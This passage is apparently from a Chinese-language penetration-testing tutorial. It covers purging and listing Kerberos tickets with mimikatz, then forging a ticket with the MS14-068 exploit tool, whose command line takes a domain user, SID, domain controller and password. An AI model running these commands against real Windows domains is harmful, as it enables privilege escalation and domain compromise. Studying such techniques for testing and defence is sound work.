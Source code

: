 ### 4.4.3. 清空票据

这里清空票据是避免其它的域成员的凭证会影响到凭证伪造。

```
mimikatz kerberos::purge 清除凭证
mimikatz kerberos::list 查看当前凭证
```

![image-20230711101020522](assets/cP76pdIDXSjFATo.png)

### 4.4.4. 生成票据

之前说生成本地票据的，但是发现生成不了，一直报错，没办法找了几台电脑测试成功了，好像打了补丁的电脑就无法利用这个工具生成这个票据。

```
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
```
